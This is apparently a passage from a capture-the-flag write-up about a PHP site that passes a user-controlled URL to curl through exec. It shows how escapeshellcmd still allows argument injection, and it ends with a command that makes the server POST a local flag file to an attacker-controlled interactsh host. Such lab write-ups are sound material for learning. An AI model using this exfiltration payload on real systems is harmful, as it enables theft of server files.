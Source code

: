 The `CommandModel.php` file holds the logic for checking the host connectivity.
In fact, it has a `command` attribute corresponding to an OS command that uses
`curl` with the parameters `--proto=http,https`(to enable HTTP and HTTPS
requests), `-sSL` (to silently perform the request, to follow redirects and to
show if it failed to perform the request) followed by the escaped `url`.

The `exec` function is used to actually execute this command on the OS, and to
return the output.

# Socket `127.0.0.1:1337`

## OS command injection

The interesting thing with the source code of this website is that the `url`
variable used with `curl` is user-controllable, and is set to the value of the
`ip` POST parameter sent to `/api/curl`. This means that we can control which
command is executed on the system.

Unfortunately, we don't have an OS command injection, since the website uses
`escapeshellcmd` to escape all shell characters.

## LFI

What we can do however is an argument injection: `escapeshellcmd` doesn't escape
spaces, so we can pass arguments to the `curl` command to change its intended
behavior.

One thing to note is that `curl` can be used to send data, and that the `@`
symbol indicates to `curl` that what follows is a file path from which the data
should be read. Therefore, we can coerce `curl` into sending data instead of
querying data!

Since we can control the queried URL, and there's no URL validation in place, we
can specify a server we control and see the data sent in the request to
essentially obtain a LFI.

### Preparation

I'll use `interactsh` to setup a fake server.

```sh
❯ interactsh-client -v -http-only
```

```
<SNIP>
[INF] cnvhqtlut6afj4d5cq20q5rhqnorn36kb.oast.live
```

### Exploitation

Let's coerce the website into sending the `flag` file:

```sh
❯ curl -s -o "/dev/null" "http://127.0.0.1:1337/api/curl" -X "POST" --data-urlencode "ip=http://cnvhqtlut6afj4d5cq20q5rhqnorn36kb.oast.live -X POST -d @../../flag"
```

